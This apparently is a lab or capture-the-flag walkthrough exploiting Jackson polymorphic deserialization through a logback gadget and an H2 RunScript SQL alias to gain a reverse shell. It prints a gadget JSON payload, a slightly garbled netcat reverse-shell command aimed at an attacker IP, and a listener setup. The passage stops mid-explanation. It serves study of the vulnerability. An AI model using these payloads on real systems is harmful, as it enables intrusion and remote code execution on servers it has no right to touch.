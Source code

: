 The Java-based library Jackson is used to serialize or map Plain Object Java Objects to JSON and vice versa. We then google search for more information about the error expected START_ARRAY: need JSON Array to contain As.WRAPPER_ARRAY type information for class java.lang.Object, and returns the page below as the first result.

![image](https://github.com/Jake-Schoellkopf/Insecure-Java-Deserialization/assets/133706360/e5973e16-5b48-4b9a-a805-225299c45f25)

The Jackson Polymorphic Deserialization vulnerability allows an attacker to execute arbitrary code on a victim's machine by sending a specially crafted JSON payload. This vulnerability can be exploited if the target application accepts arbitrary input from the user and has at least one specific gadget class in the Java classpath.

The H2 database engine is widely used in Java applications, and its RunScript feature allows attackers to execute SQL scripts from a remote URL. The Fasterxml jackson-databind package does not block the logback-core class, which contains the vulnerability.

Therefore, if an attacker knows a logback class that can initiate database connections and the victim's application is using the H2 database engine, then the attacker can execute SQL queries on the victim's server. To validate the connection, the attacker can stand up a Python HTTP server on port 80 and send the following input:

["ch.qos.logback.core.db.DriverManagerConnectionSource"]

If the connection is successful, then the attacker can execute SQL queries on the victim's server. Having the ability to execute SQL scripts against the H2 database, we can use the CREATE ALIAS H2 database feature to create a function that calls a Java code. At the following site that we visited earlier; we identified that there is script called inject.sql in GitHub that can assist in exploiting this vulnerability. We can copy the text as seen below.

![image](https://github.com/Jake-Schoellkopf/Insecure-Java-Deserialization/assets/133706360/f66320ae-7403-46b6-bf85-b162cbe649c3)

We then copy this script and modify it.

![image](https://github.com/Jake-Schoellkopf/Insecure-Java-Deserialization/assets/133706360/bdddb6ca-7112-40dc-a395-477b193b268f)

The original script defines an alias named SHELLEXEC that takes a single argument cmd, which is a shell command to be executed. It uses Java to execute the provided shell command and capture its output. In this case, the provided command is 'id > exploited.txt', which runs the id command and redirects its output to a file named exploited.txt.
Our modified script also defines an alias named SHELLEXEC that takes a single argument cmd. The provided command 'rm /tmp/f:cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.44 >/tmp/f' attempts to remove a file (rm /tmp/f), then runs a shell (/bin/sh -i) and pipes its input and output to a network connection (nc 10.10.14.44) to establish a reverse shell.
We then execute the following command python3 -m http.server starts a simple HTTP server using Python 3. This server is useful for serving files from a local directory over the HTTP protocol.
 
![image](https://github.com/Jake-Schoellkopf/Insecure-Java-Deserialization/assets/133706360/f7fbb14c-48df-4797-908a-f1422ba9ea5f)

Then in another terminal we set up a netcat listener on port 4545.

![image](https://github.com/Jake-Schoellkopf/Insecure-Java-Deserialization/assets/133706360/1073686b-19fb-49bd-b86b-f3dc9411dfe6)

The command nc -lvp 4545 is a command that uses the nc (netcat) utility to set up a network listener on port 4545. Here's what each part of the command does:
